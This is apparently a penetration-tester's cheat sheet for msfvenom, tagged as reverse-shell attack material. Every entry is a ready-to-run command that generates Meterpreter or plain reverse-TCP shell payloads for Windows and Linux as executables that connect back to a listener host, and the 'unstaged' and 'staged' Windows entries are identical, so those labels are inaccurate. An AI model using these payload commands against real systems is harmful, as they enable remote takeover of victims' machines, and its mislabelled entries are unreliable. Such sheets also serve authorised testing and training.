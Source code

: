 # msfvenom

% msfvenom, reverse shell

#plateform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## msfvenom - List available payloads
```
msfvenom --list-options payload
```

## msfvenom - Windows x86 Meterpreter Reverse TCP (unstaged)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe -o shell.exe
```

## msfvenom - Windows x64 Meterpreter Reverse TCP (unstaged)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe -o shell_x64.exe
```

## msfvenom - Linux x86 Meterpreter Reverse TCP
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf -o shell.elf
```

## msfvenom - Linux x64 Meterpreter Reverse TCP
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<lhost|tun0> LPORT=<lport> PrependFork=true -f elf -o test.elf
```

## msfvenom - Windows x86 Meterpreter Reverse TCP (staged)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe -o shell.exe
```

## msfvenom - Windows x64 Meterpreter Reverse TCP (staged)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe -o shell_x64.exe
```

## msfvenom - Windows x86 Shell Reverse TCP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe -o shell.exe
```
